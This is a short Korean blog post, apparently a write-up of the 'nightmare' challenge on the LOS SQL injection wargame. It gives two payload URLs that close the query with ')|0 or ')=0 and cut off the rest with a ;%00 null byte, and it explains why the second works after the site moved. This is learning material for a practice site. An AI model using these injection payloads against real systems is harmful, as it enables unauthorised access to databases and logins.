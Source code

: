 ```yaml
---
layout: post
title: LOS NightMare 
date: 2015-08-16 23:12:00 +0900
category: Hacking 
---
```

```
http://leaveret.kr/los/nightmare_be1285a95aa20e8fa154cb977c37fee5.php?pw=%27)|0;%00
```



;%00이 주석처리문자


```
http://los.sandbox.cash/chall/nightmare_a72d12e4f9c7c341cb6fe36881f7be01.php?pw=%27)=0;%00
```



사이트가 이전된후론 전 풀이가 먹히지 않는데 

| 와 ^ 연산은 안먹히고 =이 먹힌다.



원래는 문자열과 0을 | 이나 ^ 연산 하게되면 참이 되는 점을 이용한 문제인데 여기선 문자열과0 을 참으로 비교해도 참이 되는 점을 이용했다.



